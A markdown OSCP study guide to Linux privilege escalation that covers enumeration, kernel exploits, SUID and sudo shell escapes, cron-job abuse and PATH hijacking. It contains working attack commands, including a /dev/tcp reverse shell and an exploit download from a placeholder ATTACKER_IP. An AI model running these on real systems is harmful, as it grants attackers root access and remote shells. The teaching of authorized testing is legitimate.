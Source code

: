 # Linux Privilege Escalation

Privilege escalation is the process of gaining higher-level permissions on a system. This guide covers common Linux privilege escalation techniques for the OSCP exam.

## 📋 Table of Contents
1. [Enumeration](#enumeration)
2. [Kernel Exploits](#kernel-exploits)
3. [SUID/SGID Binaries](#suidsgid-binaries)
4. [Sudo Exploits](#sudo-exploits)
5. [Cron Jobs](#cron-jobs)
6. [PATH Exploitation](#path-exploitation)
7. [Tools](#-tools)
8. [Practice](#-practice)

## Enumeration

### System Information
```bash
# Basic system info
uname -a
cat /etc/issue
cat /etc/*-release

# Kernel version
uname -r

# Environment variables
env
set

# Network info
ip a
ip route
cat /etc/resolv.conf
```

### User Information
```bash
# Current user
id
whoami

# Other users
cat /etc/passwd
cat /etc/group

# Sudo privileges
sudo -l

# SUID/SGID files
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# World-writable files
find / -perm -2 -type f 2>/dev/null

# Cron jobs
ls -la /etc/cron*
ls -la /etc/crontab
```

## Kernel Exploits

### Finding Kernel Version
```bash
uname -a
cat /proc/version
```

### Common Kernel Exploits
- **DirtyCow**: CVE-2016-5195
- **DirtyPipe**: CVE-2022-0847
- **PwnKit**: CVE-2021-4034
- **DirtyCred**: CVE-2021-4154

### Compiling Exploits
```bash
# On attacker machine
gcc exploit.c -o exploit
python3 -m http.server 80

# On target machine
wget http://ATTACKER_IP/exploit
chmod +x exploit
./exploit
```

## SUID/SGID Binaries

### Finding SUID/SGID Files
```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```

### Common Exploitable Binaries
- **find**: `find . -exec /bin/sh -p \; -quit`
- **vim**: `vim -c ':!/bin/sh'`
- **bash**: `bash -p`
- **nmap**: `nmap --interactive` then `!sh`
- **cp/mv**: Overwrite sensitive files

## Sudo Exploits

### Check Sudo Version
```bash
sudo --version
```

### Common Sudo Exploits
- **CVE-2019-14287**: Sudo < 1.8.28
- **LD_PRELOAD**: `sudo LD_PRELOAD=/path/to/malicious.so`
- **NOPASSWD**: Check `sudo -l` for binaries that can be exploited

### Example: Exploiting NOPASSWD
```bash
# If /usr/bin/vi is in sudoers with NOPASSWD
sudo vi
:!sh
```

## Cron Jobs

### Finding Cron Jobs
```bash
ls -la /etc/cron*
ls -la /etc/crontab
ls -la /var/spool/cron/crontabs/
```

### Exploiting Writable Scripts
```bash
# If a script run by root is writable
echo 'chmod +s /bin/bash' >> /path/to/script.sh

# Or create a reverse shell
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /path/to/script.sh
nc -nvlp 4444
```

## PATH Exploitation

### Check PATH Variable
```bash
echo $PATH
```

### Exploiting PATH
```bash
# If a script calls a command without full path
# Create a malicious binary in a writable directory
echo 'int main() { setuid(0); system("/bin/sh"); }' > /tmp/suid.c
gcc /tmp/suid.c -o /tmp/ls
export PATH=/tmp:$PATH

# Now when the script runs 'ls', it will execute our malicious binary
```

## 🛠 Tools

### Local Enumeration
- **LinPEAS**: `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
- **LinEnum**: `./LinEnum.sh -t`
- **Linux Exploit Suggester**: `./linux-exploit-suggester.pl`
- **Linux Smart Enumeration**: `./lse.sh -l1`

### Privilege Escalation Scripts
- **Gtfobins**: https://gtfobins.github.io/
- **SUID3NUM**: `python suid3num.py`
- **Pspy**: Monitor processes without root

## 📚 Resources
- [GTFOBins](https://gtfobins.github.io/)
- [PayloadsAllTheThings - Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [0xdf's Linux Privilege Escalation](https://0xdf.gitlab.io/tags/#privilege-escalation)

## 🎯 Practice
1. [TryHackMe Linux PrivEsc Room](https://tryhackme.com/room/linuxprivesc)
2. [Hack The Box Linux Machines](https://www.hackthebox.com/)
3. [VulnHub Kioptrix Series](https://www.vulnhub.com/series/kioptrix,28/)

## ⚠️ Legal Note
Only perform privilege escalation on systems you own or have explicit permission to test. Unauthorized testing is illegal.
